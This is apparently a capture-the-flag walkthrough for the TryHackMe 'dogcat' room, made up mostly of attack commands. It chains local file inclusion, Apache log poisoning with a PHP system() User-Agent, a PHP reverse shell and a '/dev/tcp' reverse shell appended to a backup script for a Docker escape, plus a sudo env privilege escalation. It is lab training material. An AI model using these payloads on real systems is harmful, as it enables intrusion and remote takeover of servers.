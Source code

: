 # dogcat

**Room Link:** [https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (393).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



**Browser**

```
http://10.10.228.190/?view=php://filter/convert.base64-encode/resource=dog
```

**Kali**

```
echo "PGltZyBzcmM9ImRvZ3MvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (394).png" alt=""><figcaption></figcaption></figure>

**Browser**

```
http://10.10.228.190/?view=php://filter/convert.base64-encode/resource=dog/../index
```

**Kali**

```
echo "PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4d
C9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk+YSBnYWxsZXJ5IG9mIHZhcmlvdXMgZG9ncyBvciBjYXRzPC9pPgoKICAgIDxkaXY+
CiAgICAgICAgPGgyPldoYXQgd291bGQgeW91IGxpa2UgdG8gc2VlPzwvaDI+CiAgICAgICAgPGEgaHJlZj0iLz92aWV3PWRvZyI+PGJ1dHRvbiBpZD0iZG9nIj5BIGRvZzwvYnV0dG9uPjwvYT4gPGEgaHJ
lZj0iLz92aWV3PWNhdCI+PGJ1dHRvbiBpZD0iY2F0Ij5BIGNhdDwvYnV0dG9uPjwvYT48YnI+CiAgICAgICAgPD9waHAKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0ci
kgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICAkZXh0ID0gaXNzZXQoJF9HRVRbImV4dCJdKSA/ICRfR0VUWyJle
HQiXSA6ICcucGhwJzsKICAgICAgICAgICAgaWYoaXNzZXQoJF9HRVRbJ3ZpZXcnXSkpIHsKICAgICAgICAgICAgICAgIGlmKGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICdkb2cnKSB8fCBjb250YWlu
c1N0cigkX0dFVFsndmlldyddLCAnY2F0JykpIHsKICAgICAgICAgICAgICAgICAgICBlY2hvICdIZXJlIHlvdSBnbyEnOwogICAgICAgICAgICAgICAgICAgIGluY2x1ZGUgJF9HRVRbJ3ZpZXcnXSAuICR
leHQ7CiAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogIC
AgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (395).png" alt=""><figcaption></figcaption></figure>



**Browser**

```
http://10.10.228.190/?view=dog/../../../../etc/passwd&ext=
```

<figure><img src="../../.gitbook/assets/image (396).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (397).png" alt=""><figcaption></figcaption></figure>

**Burp**

```
GET /?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=ls HTTP/1.1
Host: 10.10.129.114
User-Agent: <?php system($_GET['cmd']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (398).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

**Burp**

```
GET /?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=php+-r+'$sock%3dfsockopen("10.10.145.14",1337)%3bexec("sh+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 10.10.129.114
User-Agent: <?php system($_GET['cmd']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (399).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (400).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```

## Privilege Escalation

**Exploit:** [https://gtfobins.github.io/gtfobins/env/](https://gtfobins.github.io/gtfobins/env/)

```
sudo -l
/usr/bin/env /bin/sh -p 
```

<figure><img src="../../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Break out of Docker



We get a hint we're actually in a docker container

**Victim**

```
ls -lah /
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see there is a backups folder that tars the contents of /root/container since we have access to edit this file we modify the file with a reverse shell

**Victim**

```
cat /opt/backups/backup.sh
echo "sh -i >& /dev/tcp/10.10.113.93/1440 0>&1" >> /opt/backups/backup.sh
cat /opt/backups/backup.sh
```

**Kali**

```
nc -lvnp 1440
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





